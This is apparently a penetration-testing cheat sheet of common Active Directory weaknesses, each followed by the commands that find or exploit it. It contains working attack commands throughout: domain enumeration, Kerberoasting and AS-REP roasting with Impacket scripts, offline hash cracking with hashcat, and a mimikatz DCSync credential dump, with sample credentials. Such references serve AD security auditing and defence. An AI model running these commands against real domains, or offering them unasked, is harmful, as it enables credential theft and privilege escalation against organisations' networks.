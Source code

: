 ### Common vulns <a href="#common-vulns" id="common-vulns"></a>

```powershell
# Users having rights to add computers to domain
add-computer –domainname org.local -Credential ORG\john -restart –force

# AdminCount attribute set on common users
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.100.20.1
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
Import-Module ActiveDirectory
Get-AdObject -ldapfilter "(admincount=1)" -properties admincount

# High number of users in privileged groups
net group "Schema Admins" /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
 - Linux:
net rpc group members 'Schema Admins' -I <DC-IP> -U "<USER>"%"<PASS>"
net rpc group members 'Domain Admins' -I <DC-IP> -U "<USER>"%"<PASS>"
net rpc group members 'Enterprise Admins' -I <DC-IP> -U "<USER>"%"<PASS>"
net rpc group members 'Domain Admins' -I 10.10.30.52 -U "john"%"pass123"

# Service accounts being members of Domain Admins
net group "Schema Admins" /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Excessive privileges allowing for shadow Domain Admins
Bloodhound/Sharphound

# Service accounts vulnerable to Kerberoasting
GetUserSPNs.py -request example.com/john:pass123
hashcat -m 13100 -a 0 -O --self-test-disable hashes.txt wordlist.txt

# Users with non-expiring passwords
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.100.20.1
grep DONT_EXPIRE_PASSWD domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3}'
 - PS
Import-Module ActiveDirectory
Get-ADUser -filter * -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$_.enabled -eq "true" }

# Users with password not required
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.100.20.1
grep PASSWD_NOTREQD domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3}'
 - PS
Import-Module ActiveDirectory
Get-ADUser -Filter {UserAccountControl -band 0x0020}

# Storing passwords using reversible encryption
mimikatz # lsadump::dcsync /domain:example.com /user:poorjohn

# Storing passwords using LM hashes
- In NTDS.dit
grep -iv ':aad3b435b51404eeaad3b435b51404ee:' dumped_hashes.txt

# Service accounts vulnerable to AS-REP roasting
GetNPUsers.py example.com/ -usersfile userlist.txt -format hashcat -no-pass
GetNPUsers.py example.com/john:pass123 -request -format hashcat
hashcat -m 18200 -a 0 -O --self-test-disable hashes.txt wordlist.txt
 - PS
```